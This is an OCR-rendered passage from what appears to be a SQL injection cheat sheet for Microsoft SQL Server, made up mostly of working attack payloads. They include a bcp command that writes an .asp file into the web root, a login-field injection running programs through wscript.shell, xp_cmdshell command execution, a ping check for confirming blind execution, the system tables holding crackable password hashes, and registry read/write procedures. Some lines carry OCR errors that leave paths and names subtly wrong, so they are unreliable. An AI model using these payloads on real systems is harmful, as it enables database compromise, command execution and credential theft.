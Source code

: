 #### BCP (S)

Write text file. Login Credentials are required to use this function.

`bcp "SELECT * FROM test..foo" queryout c:\inetpub\wwwrootuncommand.asp -c -Slocalhost -Usa -Pfoobar`

#### VBS, WSH in SQL Server (S)

You can use VBS, WSH scripting in SQL Server because of ActiveX support.

`declare @o int [[NEWLINE]]exec sp_oacreate 'wscript.shell', @o out [[NEWLINE]]exec sp_oamethod @o, 'run', NULL, 'notepad.exe' [[NEWLINE]]``*Username:* '; declare @o int exec sp_oacreate 'wscript.shell', @o out exec sp_oamethod @o, 'run', NULL, 'notepad.exe' -- [[NEWLINE]]`

#### Executing system commands, xp_cmdshell (S)

Well known trick, By default it's disabled in *SQL Server 2005. *You need to have admin access.

`EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'`

Simple ping check (*configure your firewall or sniffer to identify request before launch it*),

`EXEC master.dbo.xp_cmdshell 'ping '`
You can not read results directly from error or union or something else.

#### Some Special Tables in SQL Server (S)

- Error Messages

`master..sysmessages`

- Linked Servers

`master..sysservers`

- Password (*2000 and 20005 both can be crackable, they use very similar hashing algorithm *)

SQL Server 2000:` masters..sysxlogins`
SQL Server 2005 : `sys.sql_logins [[NEWLINE]]`

#### More Stored Procedures for SQL Server (S)

1. Cmd Execute (**xp_cmdshell**)
exec master..xp_cmdshell 'dir'
2. Registry Stuff (**xp_regread**)
    1. xp_regaddmultistring
    2. xp_regdeletekey
    3. xp_regdeletevalue
    4. xp_regenumkeys
    5. xp_regenumvalues
    6. xp_regread
    7. xp_regremovemultistring
    8. xp_regwrite

exec xp_regread HKEY_LOCAL_MACHINE, 'SYSTEM\CurrentControlSet\Services\lanmanserver\parameters', 'nullsessionshares'
